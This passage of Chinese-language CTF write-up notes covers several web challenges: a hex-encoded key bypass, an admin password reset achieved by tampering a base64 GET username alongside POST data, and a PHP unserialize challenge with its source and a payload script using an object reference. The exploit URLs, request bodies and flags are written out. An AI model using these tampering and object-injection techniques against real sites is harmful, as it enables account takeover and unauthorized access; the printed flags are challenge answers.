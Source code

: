	echo $flag;
else 
	echo 'access denied';
?>
16进制编码绕过
chinalover.sinaapp.com/web12/index.php?key=0xccccccccc
nctf{follow_your_dream}

26.密码重置
	300
	重置管理员账号：admin 的密码

	get限定用户名，应同时修改post和get数据
	http://nctf.nuptzj.cn/web13/index.php?user1=YWRtaW4=
	user=admin&newpass=111&vcode=1234
	nctf{reset_password_often_have_vuln}

27.php 反序列化
300

http://115.28.150.176/php1/index.php
代码：

	<?php
	class just4fun {
	    var $enter;
	    var $secret;
	}
	
	if (isset($_GET['pass'])) {
	    $pass = $_GET['pass'];
	
	    if(get_magic_quotes_gpc()){
	        $pass=stripslashes($pass);
	    }
	
	    $o = unserialize($pass);
	
	    if ($o) {
	        $o->secret = "*";
	        if ($o->secret === $o->enter)
	            echo "Congratulation! Here is my secret: ".$o->secret;
	        else 
	            echo "Oh no... You can't fool me";
	    }
	    else echo "are you trolling?";
	}
	?>

	思路：
	http://www.zhzzhz.com/detault/%E5%8D%97%E9%82%AEctf-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-writeup.html
    <?php   
    class just4fun {  
        var $enter;  
        var $secret;  
        function just4fun()  
        {  
            $this->enter=&$this->secret;  
        }  
    }  
    echo serialize(new just4fun());  
    ?>  
